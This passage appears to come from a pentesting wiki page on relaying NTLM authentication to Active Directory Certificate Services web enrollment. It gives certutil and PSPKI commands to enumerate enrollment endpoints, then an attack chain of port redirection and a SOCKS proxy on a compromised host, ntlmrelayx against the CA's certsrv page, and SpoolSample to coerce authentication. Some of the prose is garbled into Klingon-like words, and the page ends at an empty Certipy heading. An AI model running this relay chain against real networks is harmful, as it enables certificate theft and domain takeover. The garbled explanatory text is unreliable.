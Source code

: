<figure><img src="../../../.gitbook/assets/image (6) (1) (2).png" alt=""><figcaption></figcaption></figure>

`msPKI-Enrollment-Servers` property vItlhutlh enterprise Certificate Authorities (CAs) to store Certificate Enrollment Service (CES) endpoints. vItlhutlh endpoints can be parsed je listed by utilizing the tool **Certutil.exe**:
```
certutil.exe -enrollmentServerURL -config DC01.DOMAIN.LOCAL\DOMAIN-CA
```
<figure><img src="../../../.gitbook/assets/image (2) (2) (2) (1).png" alt=""><figcaption></figcaption></figure>
```powershell
Import-Module PSPKI
Get-CertificationAuthority | select Name,Enroll* | Format-List *
```
<figure><img src="../../../.gitbook/assets/image (8) (2) (2).png" alt=""><figcaption></figcaption></figure>

#### Certify jol with vItlhutlh
```bash
## In the victim machine
# Prepare to send traffic to the compromised machine 445 port to 445 in the attackers machine
PortBender redirect 445 8445
rportfwd 8445 127.0.0.1 445
# Prepare a proxy that the attacker can use
socks 1080

## In the attackers
proxychains ntlmrelayx.py -t http://<AC Server IP>/certsrv/certfnsh.asp -smb2support --adcs --no-http-server

# Force authentication from victim to compromised machine with port forwards
execute-assembly C:\SpoolSample\SpoolSample\bin\Debug\SpoolSample.exe <victim> <compromised>
```
#### Abuse with [Certipy](https://github.com/ly4k/Certipy)
